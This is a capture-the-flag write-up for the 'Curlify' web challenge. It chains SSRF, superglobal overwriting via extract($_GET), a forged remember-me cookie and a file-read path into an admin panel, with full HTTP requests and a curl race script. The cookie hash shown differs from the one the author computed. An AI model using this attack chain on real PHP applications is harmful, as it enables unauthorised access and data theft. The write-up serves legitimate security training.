








# CURLIFY
```
Vous avez été contacté dans le cadre d'un programme de bug bounty pour auditer l'appli Curlify en preprod et valider sa robustesse avant son déploiement en Production.

Objectif: Lire le flag dans le fichier flag.php

La DSI nous indique que les administrateurs sont très réactifs dans le traitement des tickets.
```


We get this page :


We can set a URL and get the response from a GET request send by the website.

Looking at the source code we can see a comment :
```html
<!--                <div class="navbar-item">-->
<!--                    <a href="dev.php">Developer panel</a>-->
<!--                </div>-->
```

Looking at /dev.php we get :


This page seems accessible only from local.

Let's try with the "Curlify" option from the website



We get this response :



Let's go there



Follow the href :
```html
<p>The document has moved <a href="http://127.0.0.1/536707b92/">here</a>.</p>
```


We can download a zip file containing the backup of the "admin_panel"

- Fichier : [Code.zip.bak](../attachements/curlify/Code.zip.bak)
```
.
├── create_task.php
├── database.sql
├── db.php
├── firewall.php
├── index.php
├── prefs.php
├── task.php
├── tasks
├── TODO.txt
├── user_prefs
│   ├── en-EN.php
│   ├── flag.php
│   ├── fr-FR.php
│   └── us-US.php
├── users.php
└── utils.php

2 directories, 14 files
```

We can see the file "user_prefs/flag.txt" :
```php
  1 <?php
  2 
  3 $flag = "SET_FLAG_HERE";
  4 
  5 ?>
```

Looking at "index.php", there is multiple securities in place :

1. the request to get "/admin_panel/index.php" need to be done from local (we can use "Curlify" service for that)

```php
 10 if ($_SERVER["REMOTE_ADDR"] !== "127.0.0.1")
 11     $output = '<div class="notification is-danger">Internal Access Only !</div>';
```

2. There is a WAF in place :

```php
15     if ($WAF_ENABLED)
16         include_once "firewall.php";
```

firewall.php :
```php
  1 <?php
  2 
  3 if (!preg_match("%(^DGHACK/1\.0 \(Curlify\)$)%", $_SERVER["HTTP_USER_AGENT"]))
  4     die('<div class="notification is-danger">Blocked by WAF !</div>');
```

So we need to change the "HTTP_USER_AGENT" to match the regex

Like this :

```
User-Agent: DGHACK/1.0 (Curlify)
```

Then there is a problem :

```php
30     if (isset($_POST["username"]) && !empty($_POST["username"])) {
```

We need to send a POST request to access the rest of the code but the "Curlify" service allow us to do only GET request

Thankfully there is a vulnerability in /admin_panel/index.php :

```php
18     extract($_GET);
```

With this we can set `POST[param]` parameters in the URL that will populate the _POST variables in the php code

Now lets see which variable do we need

```php
 30     if (isset($_POST["username"]) && !empty($_POST["username"])) {
 31         $username = $_POST["username"];
 32         $userinfo = $users->get_user_info_by_username($username);
 33         if (isset($_POST["password"]) && !empty($_POST["password"])) {
 34             if ($userinfo) {
 35                 if (password_verify(($_POST["password"]), $userinfo["password"])) {
 36                     $_SESSION["isConnected"] = 1;
 37                     $_SESSION["userid"] = $userinfo["userid"];
 38                     $_SESSION["username"] = $userinfo["username"];
 39                 } else {
 40                     $output = '<div class="notification is-danger">Login / password does not match</div>';
 41                 }
 42             } else {
 43                 $output = '<div class="notification is-danger">Invalid Username/Password provided</div>';
 44             }
```

We need at least `username` and `password` but we do not know either.

Thankfully the app tells us when there is a valid username even with a bad password

Let's try admin :

```
http://127.0.0.1/admin_panel/index.php?_POST[username]=admin&_POST[password]=foo
```

"admin" exists :



Let's try the "remember me" functionality to login without the password, index.php :

```php
 45         } elseif (isset($_COOKIE["remember_me"]) && !empty($_COOKIE["remember_me"])) {
 46             if ($userinfo) {
 47                 if ($_COOKIE["remember_me"] === generate_remember_me_cookie($username)) {
 48                     $_SESSION["isConnected"] = 1;
 49                     $_SESSION["username"] = $userinfo["username"];
 50                     $_SESSION["user_prefs"] = get_prefs($userinfo["username"], $_SERVER["HTTP_ACCEPT_LANGUAGE"], $DEFAULT_LANGUAGE);
 51                 } else
 52                     $output = '<div class="notification is-danger">Invalid remember_me cookie</div>';
 53             } else
 54                 $output = '<div class="notification is-danger">Invalid Username provided</div>';
 55         } else
 56             $output = '<div class="notification is-danger">Access Denied</div>';
```

We need to set the cookie `remember_me` that is equal to `generate_remember_me_cookie($username)`

```php
  7 function generate_remember_me_cookie($user) {
  8     return $user.md5('$SECRET_KEY');
  9 }
```

Here there must be an error in the code as `'$SECRET_KEY'` doesnt refer to the variable `SECRET_KEY` but the string itself.

So we can construct the cookie, knowing that `$user = 'admin'`

```sh
$ echo -n admin ; md5sum <(echo -n $SECRET_KEY)
admind41d8cd98f00b204e9800998ecf8427e  /proc/self/fd/12
```

So we get our cookie : `admind41d8cd98f00b204e9800998ecf8427e`

Then we want the variable `$_SESSION["user_prefs"]` to be set with the flag :

```php
  3 function get_prefs($user, $prefs, $lang) {
  4     switch ($prefs) {
  5         case "fr-FR":
  6             include(__DIR__."/user_prefs/fr-FR.php");
  7             break;
  8         case "en-EN":
  9             include(__DIR__."/user_prefs/en-EN.php");
 10             break;
 11         case "us-US":
 12             include(__DIR__."/user_prefs/us-US.php");
 13             break;
 14         default:
 15             return file_get_contents(__DIR__."/user_prefs/$lang");
 16     }
 17 }
```

For this we can have `$prefs` equals to nothing and `$lang` equal to `flag.php`

We need to remove the `Accept-Language: en-US,en;q=0.5` http header from our request and add `DEFAULT_LANGUAGE=flag.php` to the URL

This final request will have a PHPSESSID cookie in the response, this will be our session for the next step in "task.php" :

```php
  7 function handle_task_creation()
  8 {
  9     if (isset($_POST) && !empty($_POST)) {
 10 
 11         $required_elements = array("author", "type", "assignee", "description");
 12 
 13         foreach ($required_elements as &$el) {
 14             if (!isset($_POST[$el]) || empty($_POST[$el]))
 15                 return '<div class="notification is-danger">Missing value ' . $el . '.</div>';
 16         }
 17                         
 18         $ticket_id = strval(random_int(0, 9999));
 19         $dt = new DateTime();
 20         $date = $dt->format('Y-m-d H:i:s');
 21                     
 22         $filename = "task_$ticket_id.txt";
 23         $fp = fopen(__DIR__ . "/tasks/" . $filename, "w+");
 24             
 25         $users = new User();
 26         $list_username = $users->get_all_username();
 27         $list_type = array("incident", "bug", "vulnerability", "request");
 28 
 29         if (!in_array($_POST["author"], $list_username) || !in_array($_POST["type"], $list_type) || !in_array($_POST["assignee"], $list_username))
 30             return '<div class="notification is-danger">Invalid data</div>';
 31         else {
 32             $content = "=== Ticket N° $ticket_id ===\n";
 33             $content .= "Creation Date: $date\n";
 34             if ($_SESSION["userid"]) {
 35                 $content .= "UserId: " . $_SESSION["userid"] . "\n";
 36                 if ($_SESSION["user_prefs"]) $content .= "Preferences: " . $_SESSION["user_prefs"] . "\n";
 37             }
 38             $content .= "Author: " . $_POST["author"] . "\n";
 39             $content .= "Assignee: " . $_POST["assignee"] . "\n";
 40             $content .= "Description: " . $_POST["description"] . "\n";
 41         }
 42 
 43         fwrite($fp, $content);
 44         fclose($fp);
 45 
 46         return '
 47                 <div class="notification is-success">Ticket with id ' . $ticket_id . ' created</div>
 48                 <div class="notification is-info">Your ticket will be treated and removed in a few seconds (estimated time: ~5 seconds)</div>
 49             ';
 50 
 51     }
 52 
 53 }
```

We'll need to manually set the `userid` to get the flag in `user_prefs` :

```php
 34             if ($_SESSION["userid"]) {
 35                 $content .= "UserId: " . $_SESSION["userid"] . "\n";
 36                 if ($_SESSION["user_prefs"]) $content .= "Preferences: " . $_SESSION["user_prefs"] . "\n";
 37             }
```

So here is the final request :

```
POST /index.php HTTP/2
Host: curlify3.chall.malicecyber.com
User-Agent: DGHACK/1.0 (Curlify)
Set-Cookie: PHPSESSID=jad99t1ql8p3oqi9ml7v3r7l4j
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 249
Origin: https://curlify3.chall.malicecyber.com
Referer: https://curlify3.chall.malicecyber.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

url=http%3a%2f%2f127.0.0.1%2fadmin_panel%2findex.php%3f_POST%5busername%5d%3dadmin%26_COOKIE%5bremember_me%5d%3dadmin7a988e11680f9e151f6f46808690d5ca%26DEFAULT_LANGUAGE%3dflag.php%26_SERVER%5bHTTP_ACCEPT_LANGUAGE%5d%3dl33t%26_SESSION%5buserid%5d%3d1
```

Now we can get our session in the response :

```
Set-Cookie: PHPSESSID=6mjjmtpp7jndbb588rbhv0ocrs; path=/
```

We'll use this PHPSESSID to craft our POST request to task.php :

```
POST /admin_panel/task.php HTTP/2
Host: curlify3.chall.malicecyber.com
Cookie: PHPSESSID=6mjjmtpp7jndbb588rbhv0ocrs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: https://curlify3.chall.malicecyber.com
Referer: https://curlify3.chall.malicecyber.com/admin_panel/task.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

author=admin&type=incident&assignee=admin&description=aaa
```

And we get this response :



There is our flag waiting for us at `/admin_panel/tasks/task_7635.txt`

Only problem, the file is removed after 5 seconds. This is too short for sending the request by hand, let's use a script :

```sh
  1 
  2 output=$(curl -i -s -k -X $'POST' \
  3     -H $'Host: curlify3.chall.malicecyber.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;    q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 57' -H $'Origin: https://curlify3.chall.malicecyber.com' -H $'Referer: h    ttps://curlify3.chall.malicecyber.com/admin_panel/task.php' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' -H $'Te: trai    lers' \
  4     -b "PHPSESSID=$1" \
  5     --data-binary $'author=admin&type=incident&assignee=admin&description=aaa' \
  6     $'https://curlify3.chall.malicecyber.com/admin_panel/task.php' --compressed)
  7 
  8 id=$(echo $output | cut -d ' ' -f 178)
  9 echo $output
 10 
 11 curl -i -s -k -X $'POST' \
 12     -H $'Host: curlify3.chall.malicecyber.com' -H $'User-Agent: DGHACK/1.0 (Curlify)' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'    Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 64' -H $'Origin: https://curlify3.chall.malicecyber.com' -H $'Referer: https://curlify3.chall.malicecyber.com/' -H $'Upgra    de-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' \
 13     --data-binary "url=http%3a%2f%2f127.0.0.1%2fadmin_panel%2ftasks%2ftask_$id.txt" \
 14     $'https://curlify3.chall.malicecyber.com/index.php' --compressed
```

```
$ ./exploit.sh 6mjjmtpp7jndbb588rbhv0ocrs
[...]
=== Ticket N° 6924 ===
Creation Date: 2022-11-10 17:52:59
UserId: 1
Preferences: <?php

$flag = "DGHACK{SsRF_iNs3CuR3_4dMin_P4n3l_F0r_FuN}";

?>

Author: admin
Assignee: admin
Description: aaa
[...]
```

flag : `DGHACK{SsRF_iNs3CuR3_4dMin_P4n3l_F0r_FuN}`
